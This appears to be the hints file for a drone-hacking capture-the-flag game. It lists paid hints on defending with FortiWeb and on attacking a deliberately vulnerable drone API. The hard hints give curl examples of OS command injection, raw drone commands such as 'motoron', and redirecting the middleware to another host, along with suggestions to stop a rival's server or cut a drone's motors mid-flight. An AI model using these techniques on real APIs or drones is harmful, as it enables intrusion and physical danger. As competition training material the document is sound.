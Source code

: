 # Tips & Hints
This document contains possible tips and hints for the teams which can be provided in exchange of a small fee.

## Easy (20 Cyber$)
### Quickstart Guide (Free Hint)
Use Quickstart Guide with some examples on how to use the API and which endpoints exist.

### Interrupt your competitor
What happes if a Drone stops and turn of the motors while flying?
Maybe an Emergency protocol can be activate to interupt the competing team...

### FortiWeb API learning & protection
Use FortiWeb API learning & protection to filter out unwanted API functionlities and avoid the use of undocumented API capabilities. In addition it will allow you to create an documentation of the API for better overview and visibility.
- Help documentation URL: https://docs.fortinet.com/document/fortiweb/7.0.0/administration-guide/98060/configuring-api-protection-policy

### FortiWeb API Gateway
Use FortiWeb API gateway capabilities to rewrite API Endpoints and setup API access control.
- Help documentation URL: https://docs.fortinet.com/document/fortiweb/7.0.0/administration-guide/511481/api-gateway

### FortiWeb Web Protection
Use FortiWeb Web Protection cabailities to prevent attacks against API like OS-Command injection, etc.
- Help documentation URL:
https://docs.fortinet.com/document/fortiweb/7.0.0/administration-guide/847966/web-protection

## Medium (40 Cyber$)
### OS-Command execution
The Drone API provides an diagnostic endpoint which allows to get more System details of the API Server itself.
Sometimes you need to `POST` something insted of `GET`ting information.
- Endpoint: `/status/os-info`

### Middleware diagnostic
There is the ability to do a Connection test with Ground Station. By default, you only `GET` information - right?
What if you change the request method?

### Drone raw command execution
The API Middleware diagnostic allows to not only `GET`information - Why not check if the diagnostics also allows to setup a directo communication with the Drone itself.
- Drone SDK Guide: https://dl-cdn.ryzerobotics.com/downloads/Tello/Tello%20SDK%202.0%20User%20Guide.pdf

## Hard (60 Cyber$)
### OS-Command Injection
The Drone API provides an diagnostic endpoint which allows to execute OS commands on the API Server itself. This can be used to e.g. stop the server of the competitor.
- Endpoint: `/status/os-info`
- Example OS-Command injection:
```bash
curl -X POST 'http://localhost:5000/status/os-info' -d '{"cmd":"whoami"}' -H 'Content-Type: application/json'
```

### Drone raw command injection
The Middleware connection test endpoint allows to `POST` raw commands to the Drone itself. Which raw commands you could use are documented within the Drone SDK Guide. The `ping`command can be used to validate the host and port.
- Endpoint: `/status/connection-test`
- Example RAW Command injection:
```bash
curl -X POST 'http://localhost:5000/status/connection-test' -d '{"cmd": "motoron"}' -H 'Content-Type: application/json'
````
- Drone SDK Guide: https://dl-cdn.ryzerobotics.com/downloads/Tello/Tello%20SDK%202.0%20User%20Guide.pdf

### Middleware spoofing with Drone command injection
The Middleware connection test endpoint allows to `POST` raw commands to the Drone itself. In addition the endpoint also allows to chenge the host and port of the Middleware server. Which raw commands you could use are documented within the Drone SDK Guide. The `ping`command can be used to validate the host and port.
- Endpoint: `/status/connection-test`
- Example RAW Command injection to different Middleware:
```bash
# reach out to different middleware host and port
curl -X POST 'http://localhost:5000/status/connection-test' -d '{"port": 1234, "host": "10.10.10.10"}' -H 'Content-Type: application/json'
# send raw command to different middleware host and port
curl -X POST 'http://localhost:5000/status/connection-test' -d '{"port": 1234, "host": "10.10.10.10", "cmd": "motoron"}' -H 'Content-Type: application/json'
````
- Drone SDK Guide: https://dl-cdn.ryzerobotics.com/downloads/Tello/Tello%20SDK%202.0%20User%20Guide.pdf